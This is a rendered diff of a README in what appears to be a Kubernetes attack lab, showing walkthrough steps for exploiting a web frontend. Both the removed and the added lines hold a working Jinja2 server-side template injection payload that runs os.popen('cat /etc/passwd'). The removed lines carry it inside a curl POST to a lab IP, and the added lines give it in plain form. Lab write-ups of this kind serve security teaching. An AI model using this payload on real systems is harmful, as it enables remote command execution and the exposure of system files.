

Before and after one commit to kurtiepie/k8s_in_mem_lab, a Markdown page: README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -53,15 +53,18 @@ Connection: close
 ```
 <a id="item-one"></a>
 ## Step 1: Exploring the Read-Only Web Frontend
-First, we access the web frontend and exploit a SSTI to gain a foot hold on the system.
+First, we access the web frontend and exploit a SSTI to gain a foot hold on the system. The text box is subject to a basic Template injection.
+We cant test injection for read:
 
-Example from Burp:
-```sh
-curl -i -s -k -X $'POST' \
-    -H $'Host: 192.168.64.18:30007' -H $'Content-Length: 153' -H $'Cache-Control: max-age=0' -H $'Upgrade-Insecure-Requests: 1' -H $'Origin: http://192.168.64.18:30007' -H $'Content-Type: application/x-www-form-urlencoded' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' -H $'Referer: http://192.168.64.18:30007/get_response' -H $'Accept-Encoding: gzip, deflate, br' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: close' \
-    --data-binary $'conversation=A&user_input=a+%7B%7B+self._TemplateReference__context.cycler.__init__.__globals__.os.popen%28%27cat+%2Fetc%2Fpasswd%27%29.read%28%29+%7D%7D' \
-    $'http://192.168.64.18:30007/get_response'
 ```
+a {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /etc/passwd').read() }}
+```
+We see an error when trying to write a file.
+```bash
+touch hi.txt
+touch: cannot touch 'hi.txt': Read-only file system
+```
+
 ## Step 2: Enumerating our envioment
 
 By checking the environment variables we can deduce that we are in a Kubernetes environment.
@@ -71,11 +74,6 @@ KUBERNETES_PORT_443_TCP_PROTO=tcp
 KUBERNETES_PORT_443_TCP_ADDR=10.96.0.1
 ```
 
-We see an error when trying to write a file.
-```bash
-touch hi.txt
-touch: cannot touch 'hi.txt': Read-only file system
-```
 Observations:
 * The environment variables suggest we're on a Kubernetes node.
 * Standard paths are available, but no write access to the filesystem.
````
